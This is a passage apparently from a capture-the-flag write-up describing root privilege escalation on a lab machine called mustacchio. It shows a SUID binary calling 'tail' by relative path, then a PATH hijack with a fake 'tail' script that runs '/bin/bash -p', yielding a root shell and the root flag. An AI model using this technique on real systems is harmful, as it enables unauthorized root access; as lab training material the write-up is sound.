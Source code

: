 ```bash
tail -f /var/log/nginx/access.log
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
...
```

It called tail, without providing the full path. So if I created an executable file called `tail` that was in my PATH, it would get executed as root. 

```bash
barry@mustacchio:~$  export PATH=/home/barry/:$PATH

barry@mustacchio:~$ cat tail
#!/bin/bash
/bin/bash -p

barry@mustacchio:~$ chmod +x tail
```

With the file created and in my PATH, when I ran live_log, my file was executed and I had a shell as root.

```bash
barry@mustacchio:~$ /home/joe/live_log 

root@mustacchio:~# whoami
root

root@mustacchio:~# cat /root/root.txt 
REDACTED
```
